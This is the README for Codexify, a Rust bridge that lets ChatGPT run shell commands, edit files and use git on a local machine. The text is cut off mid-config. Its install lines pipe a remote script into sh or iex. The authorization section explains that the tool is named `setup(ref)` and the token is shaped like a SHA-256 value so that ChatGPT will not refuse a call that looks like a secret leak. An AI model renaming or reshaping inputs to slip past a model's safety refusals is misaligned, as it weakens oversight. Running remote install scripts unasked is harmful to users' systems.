

# Codexify

*Codex-style local tooling for ChatGPT, implemented in Rust.*

> 📖 **New here? Start with the [Wiki](https://github.com/devnoname120/codexify/wiki)** — an end-user guide covering [installation](https://github.com/devnoname120/codexify/wiki/Installation), [every CLI argument](https://github.com/devnoname120/codexify/wiki/CLI-Reference), [every config option](https://github.com/devnoname120/codexify/wiki/Configuration), and [how it all works end-to-end](https://github.com/devnoname120/codexify/wiki/How-It-Works). This README is the complete technical reference; the wiki is the friendlier path in.

A local MCP bridge server that lets ChatGPT Web Pro call tools on your machine: read/write files, run shell commands, git operations, and search. Codexify is implemented in Rust with **tokio + axum** and the official [`rmcp`](https://crates.io/crates/rmcp) SDK over Streamable HTTP. It can expose the local MCP endpoint through OpenAI's native [Secure MCP Tunnel](https://developers.openai.com/api/docs/guides/secure-mcp-tunnels), without opening an inbound port or publishing a general-purpose URL.

In native-tunnel mode, Codexify listens only on `127.0.0.1`, protects the MCP endpoint with a random per-process bearer token, starts OpenAI's official runtime-only tunnel client, and supervises it for the lifetime of the server. The tunnel client makes outbound HTTPS requests to OpenAI and forwards tunnel traffic to the authenticated loopback MCP endpoint. Externally managed tunnels are also supported.

The tool set follows [Codex](https://github.com/openai/codex) agent contracts for `apply_patch`, `exec_command`/`write_stdin`, `view_image`, `update_plan`, `clock_curr_time`/`clock_sleep`, project instructions, and skills. Codexify also bridges ChatGPT-native attachments and generated files into the active local project, returns project files as downloadable MCP resources, proxies resource links returned by bridged MCP servers, bounds model-visible tool output, persists task notes and plans, and records project-scoped diff checkpoints.

Codexify can also **aggregate other MCP servers**. It connects to local stdio servers or remote Streamable HTTP endpoints, keeps automatically imported Codex/plugin tool catalogues private by default, and gives the ChatGPT-side agent a fixed ranked discovery/schema/call surface. Direct exposure and single-dispatcher gateway modes are configurable per upstream.

## Architecture



Dotted edges are conditional: `list_projects` and `set_project_root` appear only in [multi-project mode](#multi-project-mode). The first discovers selectable candidates from Codex's project trust table plus optional local metadata; the second binds this conversation's project root, optionally provisioning a detached managed Git worktree (`worktrees.mode`) that becomes the active checkout so concurrent chats never share a working tree. Independently, the aggregator [auto-imports](#automatic-discovery-from-codex) compatible stdio and Streamable HTTP MCP servers directly from Codex's `config.toml`, then uses the Codex CLI when available to add plugin-provided servers before applying any `codexify.config.json` overlays.

## Quick start

### Install the latest release

Linux and macOS:

```bash
curl -qfsSL https://codexify.dev/install.sh | sh
```

Windows PowerShell:

```powershell
powershell -ExecutionPolicy ByPass -c "irm https://codexify.dev/install.ps1 | iex"
```

The installer downloads the latest release archive, verifies it against the
published SHA-256 checksums, and replaces the executable under
`~/.codexify/bin`. On Unix it adds that directory to every recognized existing
shell profile and creates the active shell's profile when needed. On Windows it
updates the persistent user `PATH`. The macOS installer removes the executable's
`com.apple.quarantine` attribute after installation. It also installs and starts
the per-user Codexify background service. Set `CODEXIFY_SKIP_SERVICE=1` in the
installer process to install only the executable and `PATH` entry.

### Interactive setup (recommended for a first install)

Run the guided setup from an installed binary:

```bash
codexify quickstart
```

Or run it directly from a source checkout:

```bash
cargo run --release -- quickstart
```

The wizard asks which project directory ChatGPT may access and whether that
directory is one project or a multi-project access root. It then walks through
creating an OpenAI Secure MCP Tunnel, entering the tunnel ID and runtime API key,
and creating the matching ChatGPT developer-mode connector. Advanced policies,
including optional per-conversation authorization, are configured manually rather
than presented during first-run onboarding. The relevant OpenAI and ChatGPT links
are printed together with the exact connection values to use.

The runtime key is entered without terminal echo and stored in a dedicated
per-tunnel file under `~/.codexify/openai-tunnel/credentials/`. On Unix, the
wizard restricts the credential directory and file to the current user.
The wizard writes `~/.codexify/codexify.config.json` by default; that file receives
the absolute `workDir`, a `file:` reference to the runtime key, and the selected
project mode; unrelated JSON settings are preserved. When the background service
is installed, quickstart updates its definition and restarts it with this config.
Otherwise, the wizard offers to start Codexify in the current terminal.

When an existing config already contains `conversationAuthToken`, quickstart
preserves it, restricts the config file to the current user on Unix, and prints the
one-line instruction required to authorize a chat. It does not offer to enable or
rotate this advanced feature. Keep a token-bearing config out of
version control and do not share it.

Set `CODEXIFY_CONFIG=/path/to/codexify.config.json` or use
`codexify quickstart --config /path/to/codexify.config.json` to update a different
config file. `--work-dir /path/to/project` changes the directory initially shown
by the wizard.

### Manual native OpenAI tunnel setup

1. Create or obtain a tunnel ID in [OpenAI Platform tunnel settings](https://platform.openai.com/settings/organization/tunnels).
2. Create a restricted [runtime API key](https://platform.openai.com/settings/organization/api-keys) whose principal has Tunnels **Read** + **Use** for that tunnel. Keep tunnel-management/admin credentials separate.
3. Add the tunnel to `~/.codexify/codexify.config.json`:

   ```json
   {
     "workDir": "/absolute/path/to/your/project",
     "openaiTunnel": {
       "tunnelId": "tunnel_0123456789abcdef0123456789abcdef",
       "apiKeyRef": "env:CONTROL_PLANE_API_KEY"
     }
   }
   ```

4. Put the runtime key in the referenced environment variable and start Codexify:

   ```bash
   export CONTROL_PLANE_API_KEY='...'
   cargo run --release -- --work-dir /path/to/your/project
   ```

On first use, Codexify downloads the pinned runtime-only build of OpenAI's official [`tunnel-client`](https://github.com/openai/tunnel-client), verifies the archive against the per-platform SHA-256 embedded in this Codexify build, and installs it under `~/.codexify/openai-tunnel/`. Codexify reports ready only after the runtime's `/readyz` check succeeds and its metrics show a successful control-plane poll. The runtime-only binary exposes loopback `/healthz`, `/readyz`, and `/metrics` endpoints; it intentionally does not include the full client's admin UI.

To use a preinstalled official client, set `openaiTunnel.clientPath` or pass `--openai-tunnel-client /path/to/tunnel-client-runtime`. Codexify checks the binary's version surface and required flags before starting it.

### Local endpoint or externally managed tunnel

```bash
cargo run --release -- --work-dir /path/to/your/project
```

Without `openaiTunnel`, the server listens on `0.0.0.0:3000`, serves MCP at `/mcp`, and serves `/health`. This mode is intended for local clients or an explicitly configured reverse proxy/tunnel. Do not publish it without authentication and network-level access controls.

To reuse one server across several independent projects, point it at their common parent and enable multi-project mode:

```bash
cargo run --release -- --work-dir /path/to/projects --multi-project
```

Here `--work-dir` is an **access root**, not the active project. In ChatGPT, call `set_project_root` directly when the exact relative/absolute path, an HTTPS/SSH Git repository URL ending in `.git`, or a supported GitHub repository, branch, pull-request, or commit URL is known. Repository URLs reuse an unambiguous matching checkout already below the access root, or run `git clone` in the configured project clone directory before binding. GitHub branch, PR, and commit URLs select their exact targets without switching an unrelated source checkout. Otherwise `list_projects` can search the read-only project catalogue by name, alias, description, or relative selector first. Codexify keys the resulting binding from ChatGPT's `_meta["openai/session"]` conversation identifier and persists it outside the repository, so later turns in the same chat recover the project after an MCP reconnect or codexify restart. A new chat gets a new binding and an existing chat cannot switch projects. Clients that do not provide `openai/session` fall back to a one-time MCP transport-session binding and must select again after reconnecting.

### Optional per-conversation authorization

Set a high-entropy authentication token manually in the config. The token itself,
not a digest of another secret, must look like a SHA-256 value: exactly 64
lowercase hexadecimal characters. For example:

```bash
python -c 'import secrets; print(secrets.token_hex(32))'
```

```json
{
  "conversationAuthToken": "0123456789abcdef0123456789abcdef0123456789abcdef0123456789abcdef"
}
```

When this key is present, Codexify rejects every ordinary tool call until the
current chat presents that exact token once. A successful check authorizes only
the stable ChatGPT conversation that made the call. The project-aware
initialization brief is withheld until authorization succeeds; the gate response
then directs the client to load it with `get_agent_brief`. The same successful
`setup` result includes the running Codexify version, a bounded latest-release
check, and connector-schema freshness data, so the model does not need follow-up
status calls.

The MCP wire surface deliberately calls this authorization tool `setup` and its
token parameter `ref`. ChatGPT can otherwise falsely classify a token-looking
connector call as an unsafe secret leak and refuse to make the call. Keeping the
actual token in a SHA-256-shaped format and using the innocuous `setup(ref)` names
avoids that false positive. `ref` is the authentication token, remains secret,
and is submitted verbatim; no digest transformation is applied.

The advertised `setup` description contains a connector version marker and its
schema includes an optional `connectorVersion` echo field. A current connector
copies that marker into the call. After a Codexify upgrade, ChatGPT may still call
the cached older schema, which omits the field; the result then warns that the
connector tools should be refreshed. This remains backward compatible because
`connectorVersion` is optional in the running server's validator.

The setup component checks for a newer release through `gh api` first, with a
strict 2-second timeout, and falls back to the unauthenticated GitHub releases API
with a 2-second timeout. Successful results are cached for 5 minutes and failures
for 30 seconds. Its compact Codexify row always exposes **Check for updates**;
that app-only action bypasses the cache and updates the row without rerunning the
conversation-authorization flow. A known newer release adds a row-local
**Upgrade** action that invokes the ordinary verified `self_update` path only after
the user clicks it.

After rendering the setup result, the component starts the app-only `doctor` tool
asynchronously, so the model can continue project selection and `get_agent_brief`
without waiting for diagnostics. A healthy automatic result remains hidden;
warnings are summarized compactly and failures expand into colored structured
checks. Warning and failure states expose **Autofix**, which sends the findings to
ChatGPT for diagnosis and repair rather than executing remediation inside the
component.

When the cached connector schema is stale or unknown, a row-local **Refresh**
action sends ChatGPT a constrained follow-up request. ChatGPT constructs a
relative settings link from a visible `plugin://dev-<slug>@...` connector mention,
or falls back to `#settings/Plugins`, then tells the user to select Codexify,
scroll below the tool list, and click **Refresh**. The component does not guess a
connector slug or navigate to settings itself. The model-facing setup continuation
remains in the tool result but is not rendered to the user.

This extra gate is necessary because ChatGPT's connector OAuth state controls
whether the account can use the connector at all; it does not independently
authorize each conversation or ChatGPT Project. `conversationAuthToken` adds that
missing conversation-level boundary after the connector has already been made
available to the account.

For ChatGPT, the authorization grant is keyed by the hash of
`_meta["openai/session"]` and persisted under
`~/.codexify/conversation-authorizations/`, so it survives MCP transport
replacement and Codexify restarts. The marker contains neither the token nor the
raw conversation identifier. Its namespace is derived from the canonical work
directory and current token, so rotating `conversationAuthToken` invalidates
earlier grants. MCP clients without stable conversation metadata fall back to
authorization for the current transport only.

Use this one-line instruction, replacing `[REF]` with the exact configured token:

```text
To use this connector in a chat, call its `setup` tool once with ref `[REF]`.
```

Paste it into an individual chat, or add it to the ChatGPT Project's
[Project instructions](https://help.openai.com/en/articles/10169521-projects-in-chatgpt)
so chats created in that project can authorize themselves automatically. The
token is an application-level gate for model conversations, not a replacement for
tunnel, HTTP, workspace, or operating-system access controls. It is plaintext in
the config by design; anyone who can read that file can authorize another chat.

To build a standalone binary:

```bash
cargo build --release
./target/release/codexify --work-dir /path/to/your/project
```

### Prebuilt binaries

Each release ships a compiled binary per platform — `windows-x64`, `linux-x64`, `linux-arm64`, `darwin-x64` and `darwin-arm64`. Download the archive for your OS/arch, unpack it, and run `codexify --work-dir …`. These are native builds, so there is no AVX2/baseline caveat: the binary runs on any CPU of its architecture.

## CLI

### Commands

| Command | Description |
|---------|-------------|
| `doctor` | Run read-only local diagnostics for configuration, command dependencies, service/update state, local health, and native tunnel prerequisites; add `--json` for machine-readable output |
| `quickstart` | Interactively configure the project scope, native OpenAI tunnel credentials, JSON config, and ChatGPT developer-mode connector; restart the installed service or optionally start a foreground server |
| `service install` | Install, enable, and start the native per-user service using the selected absolute config path |
| `service enable` | Enable and start an installed service |
| `service disable` | Stop and disable the installed service |
| `service remove` | Stop and remove the installed service definition |
| `service logs [-f]` | Print the latest service log lines; `-f` follows new output |

`quickstart` writes `~/.codexify/codexify.config.json` by default. It accepts
`--config <PATH>` (or `CODEXIFY_CONFIG`) to select another file and
`--work-dir <DIR>` as the initial project-directory prompt value.

`doctor` is side-effect free and does not start MCP children, install or repair
the native service, remove update state, download the managed tunnel runtime, or
connect the tunnel. It validates the effective config and reports the resolved
runtime plus the availability of Git, ripgrep (`rg`), GitHub CLI (`gh`), the
`exec_command` shell, optional/required Codex CLI MCP enrichment, and enabled
stdio MCP commands. Missing or unusable `rg` and `gh` are warnings; Git follows
Codex semantics (a missing Git binary warns for a Git checkout, while a found but
unusable Git binary always warns). A missing configured exec shell is a failure.
Configured stdio MCP commands are resolved using their effective cwd and PATH but
are never launched by the diagnostic.

```bash
codexify doctor
codexify doctor --json
codexify doctor --config /absolute/path/to/codexify.config.json
codexify doctor --codex-cli --json
```

The report also checks the latest published GitHub release with a bounded five-second
probe. It reports whether the running version is current, newer than the latest
release, or has a newer release available; update availability is informational and
does not make the installation unhealthy, while inability to determine the latest
release is a warning. Doctor also checks retained self-update state, native-service
running/enabled state, the loopback `/health` endpoint when that service is running,
and configured OpenAI tunnel credentials/runtime integrity. An absent managed tunnel
runtime is a warning because normal startup installs the pinned verified runtime;
incomplete or corrupt configured tunnel state is a failure. Warnings and skipped
optional checks still exit `0`; any failure exits `1` after printing the complete
report. JSON mode emits exactly one JSON document on stdout and does not include
resolved secret values.

### Server flags

| Flag | Required | Default | Description |
|------|----------|---------|-------------|
| `--work-dir` | Conditional | `workDir` | Project directory for server mode, or the project access root with `--multi-project` and `projects list`. Required when the config does not set `workDir` |
| `--multi-project` | No | Disabled | Let each ChatGPT conversation bind once to a project beneath `--work-dir`; other clients fall back to transport-session binding |
| `--project-clone-dir` | No | `--work-dir` | Existing directory beneath the multi-project access root where Git repository URLs are cloned; overrides `projectCloneDir` |
| `--worktree-mode` | No | `auto` | Multi-project worktree policy: `auto`, `always`, or `never` |
| `--worktree-root` | No | Codex worktree location | Directory for managed conversation worktrees |
| `--port` | No | `3000` | Server port |
| `--api-key` | No | - | Bearer token for auth |
| `--config` | No | `CODEXIFY_CONFIG`, then user config | Explicit config file path. The user config is `~/.codexify/codexify.config.json`; relative explicit paths resolve from the startup directory, and a missing file is tolerated |
| `--codex-cli` | No | Auto when available | Require successful Codex CLI-backed MCP discovery. When omitted, CLI failure produces a warning and discovery continues from `config.toml` |
| `-v`, `--verbose` | No | Info logs | Enable Codexify debug diagnostics; repeat (`-vv`) for trace diagnostics (`--log-tool-calls` is an alias) |
| `--log-tool-payloads[=<MODE>]` | No | `off` | Emit paired tool invocation lifecycle events with bounded, redacted payloads. `MODE` is `requests`, `responses`, or `all`; omitting it selects `all` |
| `--tool-log-level <LEVEL>` | No | `info` | Severity for tool invocation events: `trace`, `debug`, `info`, `warn`, or `error` |
| `--tool-log-max-request-bytes <BYTES>` | No | `2048` | Maximum UTF-8 bytes retained from each redacted request payload (`64`-`65536`) |
| `--tool-log-max-response-bytes <BYTES>` | No | `4096` | Maximum UTF-8 bytes retained from each redacted response payload (`64`-`65536`) |
| `--tool-log-redact-env <NAME>` | No | - | Redact the current value of an environment variable from tool payload logs; repeat for multiple names |
| `--audit <FILE>` | No | Disabled | Append privacy-preserving tool activity events to a JSONL file (`--audit-log` is an alias) |
| `--audit-command-preview` | No | Disabled | Add bounded, redacted previews for `exec_command` to the audit log |
| `--audit-redact-env <NAME>` | No | - | Redact the current value of an environment variable from command previews; repeat for multiple names |
| `--openai-tunnel-id` | No | - | Existing OpenAI Secure MCP Tunnel ID; enables native tunnel mode |
| `--openai-tunnel-api-key-ref` | No | `env:CONTROL_PLANE_API_KEY` | Runtime key reference in `env:NAME` or `file:/path` form |
| `--openai-tunnel-client` | No | managed pinned runtime | Explicit `tunnel-client` or `tunnel-client-runtime` binary |
| `--openai-tunnel-organization-id` | No | - | Optional OpenAI organization ID sent by the tunnel client |

The project catalogue also has a local diagnostic command. It does not start the HTTP server, tunnel, or bridged MCP children:

```bash
codexify projects list --work-dir /path/to/projects
codexify projects list --work-dir /path/to/projects --query "codexify"
codexify projects list --work-dir /path/to/projects --json
codexify projects list --work-dir /path/to/projects --show-skipped
```

`--show-skipped` is deliberately local-only: it prints the configured paths rejected as missing, untrusted, or outside the access root, plus duplicate entries that were merged. Normal CLI output and the MCP tool expose only aggregate warnings, so an agent does not learn absolute paths it cannot select.

## Background service

The installation scripts register a per-user native service, start it
immediately, and enable it for subsequent user logins. The service definition
invokes the installed executable with an absolute config path:

```text
codexify service run --config /absolute/path/to/codexify.config.json
```

The hidden `service run` command supervises the ordinary Codexify server. It
waits when the config file has not been created yet, restarts a failed server
with bounded exponential backoff, and forwards stdout and stderr into
`~/.codexify/logs/codexify.log`. The current log rotates at 10 MiB, with five
numbered generations retained. The native service manager also restarts the
supervisor if the supervisor itself fails. On Windows, the supervised server is
contained in a kill-on-close Job Object so stopping the scheduled task cannot
leave its process tree behind.

| Platform | Per-user service |
|----------|------------------|
| Linux | systemd user unit `$XDG_CONFIG_HOME/systemd/user/codexify.service`, or `~/.config/systemd/user/codexify.service` |
| macOS | launchd agent `~/Library/LaunchAgents/dev.codexify.service.plist` |
| Windows | Task Scheduler task `Codexify`, triggered at user logon |

The service uses `~/.codexify/codexify.config.json` unless `service install` is
given an explicit path:

```bash
codexify service install
codexify service install --config /absolute/path/to/codexify.config.json
codexify service disable
codexify service enable
codexify service logs
codexify service logs -f
codexify service remove
```

`workDir` in the selected config must be an absolute existing directory. The
quickstart wizard writes it and restarts an installed service automatically.
For a manually written service config, prefer `file:/absolute/path` secret
references because login services do not necessarily inherit variables exported
only by an interactive shell.

### Self-update

The `self_update` MCP tool updates a standard `~/.codexify/bin` installation to
the latest GitHub release. It requires an explicit user request and
`{"confirm": true}`. Codexify downloads the platform archive and published
checksums, verifies SHA-256, extracts exactly one executable plus an optional
bounded `CHANGELOG.md`, and runs the staged binary's `--help` probe while the
current server remains available. Release notes are therefore covered by the
same published archive checksum as the executable. The updater card selects all
changelog sections in the semantic-version interval `(current, target]`, so a
single update can accurately describe skipped releases.

For a service-supervised server, Codexify then submits a one-shot updater outside
the service's process tree: a transient systemd user unit on Linux, a submitted
launchd job on macOS, or an on-demand Task Scheduler task on Windows. The worker
waits 10 seconds for the MCP response and updater resource to be delivered, stops
the service, atomically replaces the executable while retaining a rollback copy,
validates the replacement, and starts the service again. On macOS, launchd
teardown is awaited under a deadline and transition-state failures are retried
within a fixed bound. Before recording success, the worker waits for the
restarted server's health endpoint; in native tunnel mode that endpoint becomes
healthy only after the OpenAI tunnel is ready. A failed replacement is rolled
back before restart. The MCP connection therefore disconnects temporarily after
a successful scheduling response.

Before handing off, Codexify writes a private status record under
`~/.codexify/update/status/<update-id>.json`. The worker atomically advances that
record through `scheduled`, `installing`, `validating`, `restarting`, and one of
`succeeded`, `failed`, or `rolled_back`; the newest 32 records are retained. The
card polls the record through the app-only `self_update_status` tool. That tool is
advertised with app visibility rather than model visibility, and accepts only the
opaque 96-bit update identifier returned by `self_update`.

The card polls every second while reachable and backs off to two seconds across
the expected restart outage. It reports success for a supervised update only
after both the durable record is `succeeded` and the responding Codexify process
reports the target version. If no terminal state can be observed within 60
seconds, the card says completion could not be verified and offers **Check
again**; a timeout is not reported as an update failure.

After Codexify restarts, open ChatGPT Settings, select the Codexify connector,
scroll to the bottom of its tool list, and click **Refresh** so ChatGPT reloads
the connector tools exposed by the updated server.

Progress and failures are appended to the normal rotating service log and can be
followed with `codexify service logs -f`. A fixed update lock rejects concurrent
updates. Self-update refuses source-tree or nonstandard executable locations;
native Windows self-update also requires the background service because a running
executable cannot be replaced in place. A foreground Unix update can replace the
installed executable without restarting its already-running process; the card
therefore reports the installed update separately from that process's
`runningVersion`.

## Tools

Structured primitives — cheaper and safer than shelling out for the same job, and identical on Windows and POSIX:

| Tool | Description |
|------|-------------|
| `read_file` | Read a file's contents, a bounded window at a time, with optional line offset/limit |
| `write_file` | Write content to a file, creating parent directories if needed |
| `import_host_file` | Stream one ChatGPT attachment or generated file into a new project-relative path, with bounded size, SHA-256 verification and atomic no-overwrite publication |
| `export_host_file` | Export one project-relative file as a durable opaque MCP resource, retaining an immutable snapshot when eligible and otherwise resolving the latest safe source file |
| `git_status` | Show git status, parsed into changed files with status codes |
| `show_diff` | Present the scoped working-tree diff from the project-open or last-diff checkpoint and, by default, record the emitted snapshot as the next incremental baseline; compatible hosts receive the bounded diff in an interactive component-only diff card |
| `git_push` | Push one existing local branch to the same branch name on a configured remote; arbitrary refspecs, force syntax, and deletion syntax are rejected |
| `git_commit` | Create a commit, optionally staging all tracked changes |
| `git_log` | Show recent commit history |
| `glob` | Find files matching a glob pattern (`.gitignore`-aware) |
| `grep` | Search file contents by regex, with optional context lines and a real basename or relative-path include glob (`.gitignore`-aware) |
| `list_directory` | List files and directories with name, type, and size |
| `tree` | Print directory tree as ASCII art |

When `conversationAuthToken` is configured, one authorization gate tool is added
ahead of the protected tools:

| Tool | Description |
|------|-------------|
| `setup` | ChatGPT-facing authorization and status entry point. Checks the configured authentication token supplied as `ref`, caches only the conversation/transport grant, returns update and connector-schema freshness state, and renders the compact setup component without exposing the model-only continuation text |

Codex-compatible agent tools:

| Tool | Codex name | Description |
|------|------------|-------------|
| `apply_patch` | `apply_patch` | Verify the complete context patch, then apply its file operations sequentially with Codex-compatible partial-failure semantics |
| `exec_command` | `exec_command` | Run a shell command; returns output, or a session id if it is still running. A model-provided `shell` selects only a recognized installed shell type by basename |
| `write_stdin` | `write_stdin` | Write to (or poll) a running `exec_command` session |
| `view_image` | `view_image` | Load a local image for visual inspection; `high` is the default prepared resolution and `original` preserves Codex's larger original-detail budget |
| `update_plan` | `update_plan` | Track a multi-step plan; saved to disk so a later conversation can pick it up |
| `clock_curr_time` | `clock.curr_time` | Current time in UTC |
| `clock_sleep` | `clock.sleep` | Pause for a given duration and end early when the active MCP request is cancelled, such as when the client interrupts the turn |
| `skills_list` | `skills.list` | List the `SKILL.md` skills installed for this project and this user |
| `skills_read` | `skills.read` | Read a skill's instructions, or another file in its package |

Codex's dotted names are flattened to underscores because MCP tool names must match `^[a-zA-Z0-9_-]{1,64}$`.

Eight always-on tools have no Codex counterpart:

| Tool | Description |
|------|-------------|
| `get_agent_brief` | Return the whole operating brief — behaviour, environment, saved state and project rules — in one call |
| `get_environment` | Report the OS, the shell `exec_command` uses, the work directory, and what the policy allows |
| `get_project_doc` | Read the project's `AGENTS.md` instructions |
| `self_update` | Download and verify the latest Codexify release, show its checksum-bound changelog in an updater card, then schedule a detached executable swap and service restart after explicit confirmation |
| `remember` | Create one durable note under a new short key; existing keys are never overwritten |
| `update_memory_note` | Replace one existing durable note without creating a missing key |
| `forget_memory_note` | Delete one existing durable note |
| `recall` | Return the plan and notes saved by earlier turns or earlier conversations |

Three additional native tools exist solely for MCP App components and are advertised
with app-only visibility:

| Tool | Description |
|------|-------------|
| `check_for_updates` | Bypass the cached release inspection and return fresh structured update state to the setup component |
| `doctor` | Run the same read-only diagnostic engine as `codexify doctor` against the active server configuration and return both its deterministic human report and structured checks to the setup component |
| `self_update_status` | Read one durable update record by its opaque update ID and report the responding Codexify process version; not offered to the model by hosts that implement MCP Apps visibility |

Multi-project mode adds two project-control tools:

| Tool | Description |
|------|-------------|
| `list_projects` | Search the read-only project catalogue before binding. Returns relative selectors for existing canonical directories authorized beneath the access root, plus names, aliases, descriptions, trust metadata, sources, and sanitized warnings. It never selects a project |
| `set_project_root` | Bind the current ChatGPT conversation to an existing directory beneath the configured access root, any HTTPS/SSH Git repository URL ending in `.git`, a GitHub repository-root URL, or an HTTPS GitHub branch (`/tree/<branch>`), pull-request (`/pull/<number>`), or commit (`/commit/<sha>`) URL. URL selection reuses a matching checkout or clones into `projectCloneDir`; targeted GitHub URLs fetch and select the exact target without moving an unrelated source checkout. Repeating the same canonical directory or exact URL selection is idempotent, but switching is rejected. Without ChatGPT conversation metadata, the binding lasts for the MCP transport session |

These tools expose runtime context, project instructions, and the four durable memory/task-state operations through MCP. See [Context and memory](#context-and-memory), [Acting as a Codex agent](#acting-as-a-codex-agent), [Shells and the host](#shells-and-the-host), [AGENTS.md](#agentsmd) and [Skills](#skills).

That is 33 advertised native tools in the default single-project mode and 35 in multi-project mode. Of those, 30 and 32 respectively are model-visible; `check_for_updates`, `doctor`, and `self_update_status` are app-only. Enabling conversation authorization adds the ChatGPT-facing `setup` tool, producing 34 or 36 advertised tools and 31 or 33 model-visible tools. Setting `artifactIngress.enabled` to `false` removes `import_host_file`; setting `artifactEgress.enabled` to `false` independently removes `export_host_file`. Each disabled direction reduces the applicable count by one. One or more [catalog-mode MCP upstreams](#catalog-mode-default-for-automatic-imports) add one shared four-tool discovery/call surface regardless of how many transitive tools they contain. Direct mode adds one downstream tool per selected upstream tool; gateway mode adds one downstream dispatcher per upstream server.

MCP-specific tool behavior:

- **`apply_patch` takes a JSON string.** MCP has no freeform tools, so the patch is supplied through the `input` string parameter. All hunks are verified before the first write; a later filesystem error can still leave earlier verified operations applied.
- **`exec_command` runs with plain pipes, not a PTY.** `tty: true` is rejected. Programs that require an attached terminal behave as piped processes. `shell` is a shell-type hint rather than an executable path: only the basename is considered, and an unavailable or unrecognized shell uses the platform fallback (`/bin/sh` on POSIX, `cmd.exe` on Windows).

For ChatGPT calls carrying `_meta["openai/session"]`, an `exec_command` process
belongs to that hashed conversation identity rather than the current MCP
transport. `write_stdin` can therefore resume or poll it after ChatGPT replaces
the connector transport between adjacent tool calls. Generic MCP clients use
transport-session ownership. Process handles are in memory only: they do not
survive a Codexify restart, and `exec.idleTimeoutMs` expires abandoned sessions.

`clock_sleep` caps at 5 minutes because a longer wait would outlive the HTTP request through the tunnel. Within that MCP-specific cap it follows Codex's interruption behavior: the timer races the request cancellation token, so a client that cancels the active tool call can end the sleep immediately.

Every native fixed-shape input schema is closed and compiled at startup. Calls are validated before dispatch, including integer bounds and nested objects; validation diagnostics mask `writeOnly` values. Native tools and fixed dispatchers that advertise an `outputSchema` must return matching `structuredContent`, and successful results are validated before they leave the server. Directly bridged upstream tools preserve the upstream convention that structured content may be absent, while any structured content they do return is checked against the advertised upstream schema. `exec_command` and `write_stdin` return Codex's unified-exec object, `import_host_file` returns its destination, byte count and SHA-256 receipt, `export_host_file` returns the original byte count/SHA-256 plus durable snapshot and source-fallback status alongside a standard MCP `resource_link`, `clock_curr_time` returns `{ current_time }`, `get_environment` returns the environment object, `get_project_doc` returns `{ files, content }` and `skills_list` returns `{ skills, content }`; other text-returning tools with a fixed output schema use the exact `{ content: <text> }` object, which the server derives from text blocks so handlers do not repeat it. `view_image` deliberately uses MCP's native image content block rather than duplicating Codex's data URL into `structuredContent`, while `clock_sleep` advertises no output schema to match Codex's sleep tool. `show_diff` likewise advertises no output schema: its model-visible result is concise text, while its complete diff payload is attached as component-only result `_meta` for the MCP App. Catalog discovery records have static exact wrapper schemas even though their source and tool values are discovered at runtime; `mcp_call_tool` has no output schema because the selected upstream tool determines that result shape.

All project-scoped paths are resolved relative to the active project root: `--work-dir` in single-project mode, or the root selected for the current ChatGPT conversation in multi-project mode. Non-ChatGPT clients use the root selected for their current MCP transport session.

## Config file

Codexify resolves one server-level JSON config in this order:

1. `--config <PATH>`;
2. the non-empty `CODEXIFY_CONFIG` environment variable;
3. an existing `~/.codexify/codexify.config.json`;
4. built-in defaults.

Relative paths supplied through `--config` or `CODEXIFY_CONFIG` resolve against
the process's startup directory. Explicit CLI and environment paths are
authoritative even when missing; a missing file is tolerated and built-in defaults
are used. The startup banner prints the selected path and its source. `quickstart`
uses the user-level path when neither explicit source is set. Every config field is
optional and uses camelCase names.

```json
{
  "workDir": "/absolute/path/to/project",
  "debug": false,
  "multiProject": false,
  "projectCloneDir": ".",
  "conversationAuthToken": null,
  "worktrees": {
    "mode": "auto",
    "root": "/path/to/worktrees",
    "upstreamRefreshMode": "never",
    "autoCleanupEnabled": true,
    "keepCount": 15,
    "allowSetupScript": false
  },
  "port": 3000,
  "tree": {
    "defaultDepth": 3,
    "ignore": ["node_modules", ".git", "dist", ".next", "__pycache__"]
  },
  "ignore": {
    "useGitignore": true,
    "useDefaultPatterns": true,
    "customPatterns": []
  },
  "command": {
    "defaultTimeout": 30000,
    "maxTimeout": 120000
  },
  "exec": {
    "mode": "unrestricted",
    "extraAllowedCommands": [],
    "maxSessions": 8,
    "idleTimeoutMs": 300000
  },
  "projectDoc": {
    "maxBytes": 32768,
    "fallbackFilenames": [],
    "rootMarkers": [".git"]
  },
  "output": {
    "maxToolOutputTokens": 10000,
    "maxFileLines": 1000,
    "maxFileBytes": 131072,
    "maxEntries": 500,
    "maxTreeNodes": 1000
  },
  "diff": {
    "maxPatchBytes": 4194304
  },
  "toolLogging": {
    "mode": "off",
    "level": "info",
    "maxRequestBytes": 2048,
    "maxResponseBytes": 4096,
    "redactEnv": []
  },
  "audit": {
    "logFile": null,
    "includeCommandPreview": false,
    "commandPreviewMaxBytes": 512,
    "redactEnv": []
  },
  "artifactIngress": {
    "enabled": true,
